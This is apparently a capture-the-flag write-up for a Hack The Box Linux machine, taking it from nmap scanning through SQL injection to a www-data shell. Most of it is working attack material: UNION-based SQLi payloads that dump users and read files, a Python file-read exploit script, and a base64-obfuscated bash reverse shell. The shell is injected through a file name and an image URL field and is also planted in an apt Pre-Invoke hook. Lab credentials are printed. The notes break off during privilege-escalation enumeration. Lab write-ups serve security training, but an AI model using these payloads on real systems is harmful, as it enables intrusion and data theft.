# Summary


## about target

tip:  10.129.228.124

hostname:  Reel

Difficulty:  Hard


## about attack

+ Sqli wfuzz, extract mysql data
+ sqli load file, lfi-linux-list.txt;
+ python flask web code review, command injection to shell.
+ group writable file and exploit postfix disclaimer
+ group writable apt.conf.d to root.


**attack note**

```bash
Reel / 10.129.228.124


PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9820b9d0521f4e103a4a937e50bcb87d (RSA)
|   256 1004797a2974db28f9ffaf68dff13f34 (ECDSA)
|_  256 77c4869a9f334fda71202ce151107e8d (ED25519)
80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp   open   netbios-ssn Samba smbd 4.6.2
445/tcp   open   netbios-ssn Samba smbd 4.6.2
27741/tcp closed unknown
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---- Interesting
-- from 1337, sec_notes/


---- Enum 


wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt  -u http://writer.htb/administrative -d "uname=FUZZ&password=password"  -p 127.0.0.1:8080:HTTP


sqlmap -r login.req --level=3 --risk=3  --time-sec 1 --current-user --batch

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


## python script to load file.
import requests
import sys
import re

url = "http://writer.htb/administrative"
# uname = admin' union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6;-- -
data = {"uname": f"admin' union select 1,load_file('{sys.argv[1]}'),3,4,5,6;-- -", "password":"password"}
req = requests.post(url, data=data)
print(req.text)


# lfi list
https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt
---- Foothold

echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash

-- kyle 

sendmail -f 'kyle@writer.htb' \
    -t 'john@writer.htb' \
    -s 127.0.0.1:25 \
    -u 'Your spreadsheet' \
    -m 'Here is your requested spreadsheet' 

mail from: kyle@writer.htb

RCPT TO: john@writer.htb


---- System
echo 'apt::Update::Pre-Invoke { "echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash"};' > 00-test

```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9820b9d0521f4e103a4a937e50bcb87d (RSA)
|   256 1004797a2974db28f9ffaf68dff13f34 (ECDSA)
|_  256 77c4869a9f334fda71202ce151107e8d (ED25519)
80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp   open   netbios-ssn Samba smbd 4.6.2
445/tcp   open   netbios-ssn Samba smbd 4.6.2
27741/tcp closed unknown
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## smb 

enum found users, smb share writer2_project (no read)

```bash
smbclient -L $tip

smbmap -H $tip -u null

enum4linux -a $tip | tee enum4linux.log
```




## web

dir scan

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 50 -u http://object.htb -o gobuster.log
```




## sqli 

wfuzz sqli payload

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt  -u http://writer.htb/administrative -d "uname=FUZZ&password=password"  -p 127.0.0.1:8080:HTTP

sqlmap -r login.req --level=3 --risk=3  --time-sec 1 --current-user --batch
```

Bypass login.

```bash
admin'+or'
```



union to check the info back.

```bash
uname='+union+select+1,2,3,4,5,6%3b--+-&password=password
```



extract data, writer.users; not much interesting info.

search: mysql injection cheatsheet

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```bash
# version
uname='+union+select+1,version(),3,4,5,6%3b--+-&password=password

# user
uname='+union+select+1,user(),3,4,5,6%3b--+-&password=password

# schema name: information_schema,writer
uname='+union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata;%3b--+-&password=password

# table: site,stories,users
uname='+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema='writer';%3b--+-&password=password

# column, users: id,username,password,email,status,date_created
uname='+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema='writer'+and+table_name='users';%3b--+-&password=password

# table user data: admin:118e48794631a9612484ca8b55f622d0:admin@writer.htb
uname='+union+select+1,concat(username,":",password,":",email),3,4,5,6+from+users;%3b--+-&password=password
```




check read file.

```bash
uname='+union+select+1,load_file('/etc/passwd'),3,4,5,6%3b--+-&password=password
```




python script to read linux conf file.

List: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

```python
import sys
import re
import base64

url = "http://writer.htb/administrative"
regex = re.compile(r"admin(.*)</h3>", re.DOTALL)
# uname = admin' union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6;-- -
data = {"uname": f"admin' union select 1,to_base64(load_file('{sys.argv[1]}')),3,4,5,6;-- -", "password":"password"}
req = requests.post(url, data=data)
match = re.search(regex, req.text)
result = match.group(1)

fname = sys.argv[1].replace("/", "_")[1:]
if result != "None":
        decodefile = base64.b64decode(result)
        with open('files/'+fname, 'wb+') as f:
                f.write(decodefile)
#else:
#       print("Fail")
```


check the files from target.

```bash
less files/etc_apache2_sites-enabled_000-default.conf
```





var_www_writer.htb_writer.wsgi




Check python file in /var/www/writer.htb/writer

```bash
app.py
__init__.py
```

found password

admin:ToughPasswordToCrack




command injection, upload img name




# Foothold

generate file with payload in filename.

```bash
touch 'test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash;'
```

add story, upload the file.



check the file, /static/img



upload again, exploit image_url

```bash
file:///var/www/writer.htb/writer/static/img/test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash;
```




got shell from www-data




# Privesc

## www-data enum

peas found something.

8080 service



mysql creds

```bash
user = djangouser
password = DjangoSuperPassword
```

